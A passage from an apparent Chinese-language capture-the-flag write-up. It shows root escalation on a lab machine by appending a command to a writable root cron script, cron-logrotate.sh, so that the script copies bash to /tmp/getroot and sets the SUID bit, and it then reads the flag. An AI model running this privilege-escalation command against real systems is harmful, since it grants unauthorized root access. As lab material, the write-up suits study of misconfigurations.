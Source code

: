 在/etc/cron.d 中发现一个可疑任务 logrotate，查看具体详情：

[![](assets/1699929525-38f844c65d9af8ce7c5a37ab0ba73621.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140947-1530d95c-8122-1.png)

该计划任务 5 分钟执行一次，并且以 root 身份运行脚本/usr/local/sbin/cron-logrotate.sh，并且该脚本无内容，且权限充足

设置计划任务，在 cron-logrotate.sh 脚本文件中写入：将/bin/sh 复制到/tmp/getroot，属主改为 root:root，并且赋予 SUID 权限

```bash
echo "cp /bin/bash /tmp/getroot; chown root:root /tmp/getroot; chmod u+s /tmp/getroot" >> /usr/local/sbin/cron-logrotate.sh
```

等待 5min 后计划任务执行，执行/tmp/getroot -p 命令，以 root 用户权限启动 bash，获取 root 用户权限

[![](assets/1699929525-830c16bc3bdaa81522ad8270261ac1af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112141007-20fc8326-8122-1.png)

## 获取 flag

得到 root 权限后，切换至 root 目录下，得到 flag 为 b6b545dc11b7a270f4bad23432190c75162c4a2b

[![](assets/1699929525-e2c8142c9e6645b2119a100359346101.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112141027-2c9311c8-8122-1.png)
